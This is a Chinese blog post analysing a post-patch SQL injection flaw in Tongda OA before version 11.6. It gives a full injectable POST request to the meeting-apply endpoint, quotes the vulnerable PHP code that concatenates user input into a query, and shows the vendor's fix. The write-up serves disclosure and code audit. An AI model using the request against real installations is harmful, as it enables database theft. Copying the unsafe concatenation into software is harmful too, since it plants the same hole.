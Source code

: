 ```yaml
---
layout: post
title:  "通达OA11.5SQL注入分析"
categories: 代码审计
tags: PHP代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA存在SQL注入漏洞的分析文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。鉴于凡世之忙碌，下一次更新也许是明天，也许是下辈子。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 0x01 漏洞概述

这个漏洞是4月份的时候提交给厂商的，之后通达OA更新到了11.5版本，但是发现11.5版本并未修复此漏洞。直到2020-05-08日更新到11.6版的时候才修复此漏洞。为什么11.5版本未修复？大概是是因为4月中旬的时候出现了通达OA任意账号登录漏洞，厂商便紧急发布了任意账号登录漏洞的补丁包。

通过此也说明了这个SQL注入漏洞技术含量影响性较低。但既然漏洞已修复，便把其中的一些细节公布出来吧。低版本通达OA不止一处SQL注入，这篇文章暂时只发布其中的一处注入点。

## 0x02 漏洞分析

- 影响版本：< 通达OA11.6
- 发现时间：2020-04-01

### 一、payload

先上payload。测试发现其他的参数keyword、min_people、max_people存在SQL注入漏洞。需要特别说明的是，本漏洞不需要管理员账号，普通用户可以登录系统即可。

```
POST /general/appbuilder/web/meeting/meetingapply/getmeetingapplyinfo HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
Content-Length: 183
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Cookie: USER_NAME_COOKIE=lina; SID_1=3b9b2a17; SID_12=6114b1ec; SID_65=dba4163e; PHPSESSID=e62i1gqidh35cb4pfbn3eatn84; OA_USER_ID=65; creat_work=new
Origin: http://192.168.220.129
Referer: http://192.168.220.129/general/meeting/myapply/applyMeeting/select1.php
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

date=2020-04-01&end_time=&equipment_ids=&keyword=*&max_people=&min_people=&start_time=
```

### 二、代码审计

- \general\appbuilder\modules\meeting\models\Meeting.php:1324行。此处的$data["keyword"]未处理便赋值给$keyword。

  ```php
  		$pageSize = modules\meeting\models\intval($data["pageSize"]);
  		$type = $data["type"];
  		$keyword = $data["keyword"];
  
  		if ($keyword != "") {
  			$key_where = array("like", "M_NAME", "$keyword");
  		}
  ```

- \general\appbuilder\modules\meeting\models\Meeting.php:4313行。此处的keyword直接拼接到了SQL语句中，导致了漏洞的触发。

  ```php
  		$where = " 1=1";
  		if (isset($mr_id) && !empty($mr_id)) {
  			$where .= " and MR_ID = '$mr_id'";
  		}
  
  		if (isset($keyword) && !empty($keyword)) {
  			$where .= " and MR_NAME like '%" . $keyword . "%'";
  		}
  
  		if (isset($min_people) && !empty($min_people)) {
  			$where .= " and MR_CAPACITY >= $min_people";
  		}
  
  		if (isset($max_people) && !empty($max_people)) {
  			$where .= " and MR_CAPACITY <= $max_people";
  		}
  
  		$sql1 = "SELECT * from Meeting_room where (TO_ID='ALL_DEPT' or find_in_set('$login_dept_id',TO_ID) or find_in_set('$login_user_id',SECRET_TO_ID) or find_in_set('$login_priv_id',PRIV_ID)) and USE_FLAG = '1' and" . $where;
  		$cur = self::getDb()->createCommand($sql1)->queryAll();
  ```

### 三、漏洞修复

修复方式也很简单。只需要进行如下的替换即可：

```php
$keyword = $data["keyword"];
```

替换为：

```php
$keyword = modules\meeting\models\intval($data["keyword"]);
```

测试发现，11.6版本也确实是这样修复的。

## 0x03 参考链接

- http://www.0e0w.com
